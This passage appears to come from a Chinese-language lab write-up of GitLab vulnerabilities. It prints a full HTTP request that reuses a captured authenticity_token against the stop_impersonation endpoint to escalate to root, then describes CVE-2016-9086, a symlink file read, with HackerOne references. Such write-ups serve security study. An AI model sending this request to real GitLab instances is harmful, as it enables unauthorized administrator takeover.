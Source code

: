 ![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCNtyJmLOHDMZcrfrTvtfsKcO9aia7jaOL2GjKtLV8oU1VgmicBplwLQgRBdoq7adAGnA7u1aFbbvr6g/640?wx_fmt=png&from=appmsg "")  
  
点击create project时抓包，获取  
authenticity_token的值，此处为4c%2B%2B0lojTsb8vdX8dQ1kK4EHwSfGSwBDsQqBaVF%2FakYLmaxL3%2FOxNYWrwgupOnX%2FAowIyxbBZkIloix%2FwzybEA%3D%3D  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCNtyJmLOHDMZcrfrTvtfsKclU7TVBD41eUVcJDYKiba4ib1ibg45ic9AFibbazBPSe138Lib3ttL6pWWgZw/640?wx_fmt=png&from=appmsg "")  
  
放行数据包，浏览器中访问  
/admin/users/stop_impersonation?id=root抓包，将请求方式改为post，发送的数据包如下：  
```
POST /admin/users/stop_impersonation?id=root HTTP/1.1
Host: 10.211.55.5
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Cookie: sessionid=s5845t7zkd9sxtaa4enrlpkq482w74bb; _gitlab_session=c889f67cb4f145a7dd8ccb9d4cbeb1b8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:129.0) Gecko/20100101 Firefox/129.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

_method=delete&authenticity_token=4c%2B%2B0lojTsb8vdX8dQ1kK4EHwSfGSwBDsQqBaVF%2FakYLmaxL3%2FOxNYWrwgupOnX%2FAowIyxbBZkIloix%2FwzybEA%3D%3D其中authenticity_token为创建项目时获取到的值
```  
  
其中authenticity_token为创建项目时获取到的值  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCNtyJmLOHDMZcrfrTvtfsKcmWaib2CTDZ4v0f22oP2OxgHkBOFFj8xE5182bG8rGJJaVwico5LNMsrA/640?wx_fmt=png&from=appmsg "")  
  
提权到了root：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCNtyJmLOHDMZcrfrTvtfsKc2uHLzicdsWRqTwlgJgga5jqfsjrj6u8o0d0L254o0Jn1eawRRJkAQfA/640?wx_fmt=png&from=appmsg "")  
## 0x02 任意用户authentication_token泄露和任意文件读取（CVE-2016-9086）  
### 一、漏洞描述  
  
GitLab 8.9.x 及以上版本在 GitLab 的“导入/导出项目”功能中存在一个严重的安全漏洞。此功能在 GitLab 8.9 中新增，允许用户将其项目导出然后重新导入为磁带存档文件 (tar)。8.13.0 之前的所有 GitLab 版本都限制此功能仅限管理员使用。从 8.13.0 版本开始，此功能可供所有用户使用。此功能未正确检查用户提供的存档中的符号链接，因此经过身份验证的用户可以检索 GitLab 服务帐户可访问的任何文件的内容。这包括敏感文件，例如包含 GitLab 服务用于验证用户的秘密令牌的文件。 GitLab CE 和 EE 版本 8.13.0 至 8.13.2、8.12.0 至 8.12.7、8.11.0 至 8.11.10、8.10.0 至 8.10.12 以及 8.9.0 至 8.9.11 均受到影响。  
  
而“导入/导出项目”功能在GitLab CE 和 EE 版本 8.10.3-8.10.5还存在任意用户authentication_token泄露。  
  
这两个漏洞由jobert分别于2016年8月和10月在hackone上披露：  
  
https://hackerone.com/reports/158330  
  
https://hackerone.com/reports/178152  
### 二、环境搭建  
  